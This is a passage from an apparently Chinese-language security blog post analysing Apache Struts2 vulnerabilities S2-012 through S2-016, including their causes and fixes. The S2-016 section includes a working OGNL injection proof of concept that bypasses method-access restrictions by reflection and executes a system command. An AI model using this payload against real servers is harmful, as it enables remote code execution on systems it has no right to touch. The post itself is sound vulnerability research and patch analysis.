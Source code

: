 是final类型，我们不能使用普通的方式改变他的值，只能通过上面的反射的方式来进行修改。

这里的改变是从struts2 2.3.14.1版本开始的，意味着高于这个版本的以后的poc只能通过这种方式来设置

除了上面通过反射机制来进行绕过，我们也可以直接用构造器的方法来执行，比如`new ProccessBuilder('id').start()`

### 修复

这里的修复就是S2-012的修复，主要修复了执行这种OGNL表达式`${另一层%起始的OGNL表达式}`

## 10. S2-016

范围：Struts 2.0.0 - Struts 2.3.15

S2-016问题出在处理默认的`action:xxx`或`redirect:xxx`，后面跟的`xxx`为OGNL表达式，Struts2默认将用`ServletRedirectResult`来处理跳转问题，这里跟S2-012一样，只是这里的跳转设置在url里面

执行链路跟S2-012一样，不作分析了

### POC

```java
redirect:%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#writer.println(#q),#writer.flush(),#writer.close()}
```

### 修复

`org.apache.struts2.dispatcher.mapper.DefaultActionMapper`默认的`redirect/redirectaction`直接被删除了

![image-20200515154730941](/images/talk_about_struts2/image-20200515154730941.png)

`action:`部分因为S2-015的关系，限制了action名

![image-20200515154855569](/images/talk_about_struts2/image-20200515154855569.png)

已经不构成威胁了

## 11. S2-019
